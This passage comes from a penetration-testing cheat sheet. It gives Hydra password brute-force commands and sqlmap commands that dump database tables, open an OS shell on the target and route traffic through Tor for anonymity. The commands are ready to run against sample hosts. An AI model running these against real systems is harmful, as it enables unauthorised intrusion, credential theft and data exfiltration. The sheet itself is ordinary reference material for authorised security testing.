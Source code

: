3. **Verbose Output**  
   ```bash
   hydra -vV -l admin -p password 192.168.1.1 ftp
   ```
4. **Stop On First Success**  
   ```bash
   hydra -f -l admin -P passwords.txt 192.168.1.1 ssh
   ```

#### **Advanced Tips**
- **Parallel Threads**: `-t 16` or `-t 32` can speed up attacks, but risk lockouts/noise.  
- **SSL/TLS**: `-s 443` or specific ports for HTTPS, IMAPS, etc.  
- **Module-based**: Hydra has modules for many protocols; check `hydra -h` or official docs for specifics.

---

## 8. **sqlmap**

### **Description**  
- **Primary Purpose**: Automated SQL injection detection and exploitation tool.  
- **Why It’s Essential**: Swiftly identifies injection flaws and can dump data or even gain shell access.

### **Fundamental Commands**
1. **Enumerate Databases**  
   ```bash
   sqlmap -u "http://test.com/page?id=1" --dbs
   ```
2. **List Tables**  
   ```bash
   sqlmap -u "http://test.com/page?id=1" -D <dbname> --tables
   ```
3. **Dump Table Data**  
   ```bash
   sqlmap -u "http://test.com/page?id=1" -D <dbname> -T <table> --dump
   ```
4. **OS Shell**  
   ```bash
   sqlmap -u "http://test.com/page?id=1" --os-shell
   ```

#### **Advanced Features**
- **Risk/Level**: `--risk=3 --level=5` for deeper tests (including more time-consuming or invasive checks).  
- **Authentication**: `--cookie`, `--auth-type`, `--auth-cred` for authenticated testing.  
- **Technique Tuning**: `--technique=BEUSTQ` to limit or expand injection strategies (blind, error-based, UNION, stacked queries, time-based, etc.).  
- **Tor/Proxy**: `--proxy http://127.0.0.1:8080` or `--tor` for anonymity.

---

## 9. **Netcat**
